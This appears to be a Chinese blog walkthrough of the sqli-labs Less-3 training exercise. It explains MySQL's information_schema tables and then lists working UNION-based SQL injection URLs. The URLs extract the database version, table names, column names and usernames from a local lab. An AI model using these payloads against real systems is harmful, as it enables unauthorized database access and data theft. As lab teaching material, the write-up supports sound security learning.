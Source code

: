   多多练习手工技术：（**注意一定要让id的值为0，负等**）

再次记一下：

SCHEMATA表:储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等，show databases的结果取之此表。

TABLES表:储存mysql中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。show tables from schemaname的结果取之此表

COLUMNS表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是show columns from schemaname.tablename的结果取之此表。 

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_01.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,table_name from information_schema.tables where table_schema = 'security' %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_02.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,column_name from information_schema.columns where table_schema = 'security' and table_name = 'users' limit 1,1 %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_03.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_04.png" />

then：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_05.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,group_concat(char(32),username,char(32)) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_06.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_07.png" />



